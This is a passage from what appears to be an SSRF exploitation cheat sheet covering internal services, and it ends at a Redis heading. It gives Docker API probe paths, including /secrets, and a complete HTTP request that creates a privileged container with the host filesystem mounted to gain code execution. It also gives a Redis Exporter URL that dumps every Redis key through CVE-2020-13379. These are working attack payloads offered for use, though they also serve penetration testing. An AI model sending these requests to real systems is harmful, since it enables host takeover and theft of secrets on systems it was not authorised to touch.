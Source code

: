 ## Docker

**Commonly bound ports: 2375, 2376 (SSL)**

If you have a partially blind SSRF, you can use the following paths to verify the presence of Docker's API:

```bash
/containers/json
/secrets
/services
```

**RCE via running an arbitrary docker image**

```http
POST /containers/create?name=test HTTP/1.1
Host: website.com
Content-Type: application/json
...

{"Image":"alpine", "Cmd":["/usr/bin/tail", "-f", "1234", "/dev/null"], "Binds": [ "/:/mnt" ], "Privileged": true}
```

Replace alpine with an arbitrary image you would like the docker container to run.

## Gitlab Prometheus Redis Exporter

**Commonly bound ports: 9121**

This vulnerability affects Gitlab instances before version 13.1.1. According to the [Gitlab documentation](https://docs.gitlab.com/ee/administration/monitoring/prometheus/#configuring-prometheus) `Prometheus and its exporters are on by default, starting with GitLab 9.0. `

These exporters provide an excellent method for an attacker to pivot and attack other services using CVE-2020-13379. One of the exporters which is easily exploited is the Redis Exporter. 

The following endpoint will allow an attacker to dump all the keys in the redis server provided via the target parameter:

```bash
http://localhost:9121/scrape?target=redis://127.0.0.1:7001&check-keys=*
```

----------

**Possible via Gopher**

<div id="redis"></div>

## Redis

**Commonly bound port: 6379**

Recommended reading:
